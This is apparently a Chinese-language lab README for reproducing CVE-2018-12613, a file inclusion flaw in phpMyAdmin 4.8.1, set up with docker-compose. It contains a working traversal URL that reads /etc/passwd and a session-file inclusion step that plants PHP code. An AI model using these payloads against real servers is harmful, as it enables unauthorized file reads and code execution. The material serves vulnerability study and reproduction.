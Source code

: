 # phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

参考文档：

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## 漏洞环境

执行如下命令，启动phpmyadmin 4.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。

## 漏洞复现

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：

![](1.png)

利用方式也比较简单，可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：

![](2.png)
